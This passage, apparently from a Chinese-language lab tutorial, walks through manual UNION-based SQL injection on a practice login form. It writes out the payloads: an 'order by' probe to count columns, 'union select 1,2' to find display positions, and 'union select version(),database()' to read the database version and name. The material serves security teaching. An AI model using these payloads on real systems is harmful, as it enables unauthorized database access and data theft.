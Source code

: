   - 对比源码，这条语句的意思是查询users表中user_id为1的数据并按第一或第二字段排列；
  - 在输入框中输入 1’ order by 3 #时，返回错误（Unknown column ‘3’ in ‘order clause’）,说明该表输入的字段数为2，有两列数据；

  <img src="img\sql-6.jpg" alt="sql-6" style="zoom:50%;" />

- 确定字段的显示位置，当确定字段数之后，接下来使用union select联合查询继续获取数据

  - 1’ union select 1,2 # ——>1在First name中显示，2在Surname中显示；

  <img src="img\sql-7.jpg" alt="sql-7" style="zoom: 67%;" />

- 获取当前数据库名

  - 输入 1’ union select version(),database() # ——> 在1的位置显示数据库版本，在2的位置显示数据库名；

  <img src="img\sql-8.jpg" alt="sql-8" style="zoom:67%;" />
